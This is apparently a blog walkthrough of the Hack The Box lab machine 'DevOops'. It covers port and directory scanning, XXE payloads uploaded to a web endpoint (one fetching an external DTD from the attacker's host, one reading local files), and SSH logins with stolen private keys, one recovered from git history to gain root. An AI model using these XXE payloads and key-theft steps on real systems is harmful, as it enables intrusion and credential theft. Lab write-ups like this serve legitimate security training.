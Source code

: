 ```yaml
---
layout: post
title: "HTB-Dev0ops"
categories: HTB-Walkthrough
---
```


![dev0ops1](/assets/img/dev0ops/dev0ops1.png)

DevOops is another 'more challenging' than OSCP boxes from TJNull's list.


nmap first.

<h3>Nmap</h3>

```
nmap -sV -Pn --min-rate 10000 -p- 10.10.10.91 |tee -a devoops.txt
```

```

Nmap scan report for 10.10.10.91
Host is up (0.11s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 19.7.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

```

<hr width="250" size="6">


![port5000](/assets/img/dev0ops/devoops-5000.png)


<h3>Gobuster</h3>

```
gobuster dir -u http://10.10.10.91:5000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.py,.txt,.asp,.aspx,.sh
```

<hr width="250" size="6">


`/feed` seems to show a png with info about aws.

![feed](/assets/img/dev0ops/devoops-feed.png)

<hr width="250" size="6">

`/upload` may be a possible vector of attack.

![upload](/assets/img/dev0ops/devoops-upload.png)


I make a test.xml file to upload, to see if it will work.

```xml

<note>
<Author>sh1n0bi</Author>
<Subject>testes</Subject>
<Content>testes...testes...1...2...3???</Content>
</note>

```


The result is reflected on the webpage.
![xml-upload](/assets/img/dev0ops/devoops-xml-upload.png)


<hr width="250" size="6">


make evil.xml:

```

<!--?xml version="1.0" ?-->
<!DOCTYPE convert [ <!ENTITY % remote SYSTEM "http://10.10.14.24/1.dtd">%remote;%int;%trick;]>
<note>
<Author>&b;</Author>
<Subject>sh1n</Subject>  
<Content>Reminder</Content>
</note>

```

This will call 1.dtd from Kali through the python webserver
```
python3 -m http.server 80
```

contents of 1.dtd:


```
<p class="p1"><!ENTITY b SYSTEM "file:///etc/passwd" ></p>
```

`500 server error....didnt work....`


Create mal.xml, this one doesn't require 1.dtd

```xml

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
        <Author>lhm</Author>
        <Subject>HTB</Subject>
        <Content>&xxe;</Content>
</creds>

```

The result was not entirely what was expected:

![malxml](/assets/img/dev0ops/devoops-malxml-out.png)



<hr width="250" size="6">

We've ended up with a private id_rsa key, likely for user `roosa` mentioned in the filepath.

Copy its contents as `rsa_key`

```
chmod 600 rsa_key
```

Then try to ssh into the target as roosa.

```
ssh -i rsa_key roosa@10.10.10.91
```

It works! we now have roosa's shell...and the user flag.

![ssh-roosa](/assets/img/dev0ops/devoops-ssh-roosa.png)

```
roosa@gitter:~$ cat user.txt
c5xxxxxxxxxxxxxxxxxxxxxxxxxxxx7b
roosa@gitter:~$ 
```


<h3>Privilege Escalation</h3>



The `.bash_history` is readable


```

roosa@gitter:~$ cat .bash_history
ssh-keygen --help
ssh-keygen 
ls -altr .ssh/
cat .ssh/id_rsa.pub 
nano /etc/host
nano /etc/hostname 
sudo nano /etc/hostname 
exit
nano .ssh/id_rsa.pub 
exit
ssh git@localhost
exit
ssh git@localhost
clear
apt-get upgrade
exit
ls -altr
mkdir work
cd work
mkdir blogfeed
git init
git add .
git commit -m 'initial commit'
git config --global user.email "roosa@solita.fi"
git config --global user.name "Roosa Hakkerson"
git commit -m 'initial commit'
nano README-MD
nano README-md
nano README.md
git add README.md 
git commit -m 'initial commit'
git remote add origin git@localhost:/srv/git/blogfeed.git
git push origin master
exit
ps -Af
kill 27499
exit
sudo su -
exit
groups
exit
git push origin master
cd work/blogfeed/
git push origin master
cd ..
cd blogfeed/
cd ..
git add README.md 
git commit -m 'Initial commit'
git push
git log 
ls 
nano integration/auth_credentials.key/
ls -altr
chmod go-rwx authcredentials.key 
ls -atlr
cd ..
ls -altr
chmod -R o-rwx .
ls -altr
ls resources/
ls resources/integration/
ls -altr resources/
ls -altr resources/integration/
rm -Rf resources/integration/auth_credentials.key
mv resources/authcredentials.key resources/integration/
git add resources/integration/authcredentials.key 
git commit -m 'add key for feed integration from tnerprise backend'
ls -altr resources/integration/
git push
ssh-keygen
ös -altr
ls .altr
ls -altr
cat kak
cp kak resources/integration/authcredentials.key 
git add resources/integration/authcredentials.key 
git commit -m 'reverted accidental commit with proper key'
git push
ls -altr
rm kak
rm kak.pub 
git log

<--snip-->

```

Besides running the gunicorn.sh file (which runs the webservice), the user seems to work
a lot with `git`.

There's a `work` folder in the user's home directory, and another inside called `blogfeed`.

It also seems that the user generated new authentication keys.


`cd work/blogfeed`


```
git log -p
```

The log is long, and reveals another private ssh key.

![gitkey](/assets/img/dev0ops/devoops-gitlog-revertedkey.png)



My experience of git is very limited, but it looks like the key with each line preceeded with a minus (-)
is being replaced with that whose lines start with pluses (+)

It also helps that my terminal has the outgoing as coloured red and the incomming as green.



I copypaste the green key to Kali, and remove the `+` in each line...

I follow the same proceedure as before...saving the file this time as `rkey`

```
chmod 600 rkey
```

use it to login via ssh as root:


```
ssh -i rkey root@10.10.10.91
```

![rootssh](/assets/img/dev0ops/devoops-rootssh.png)


Getting the root flag is a simple formality from here.


<hr width="250" size="6">

:)




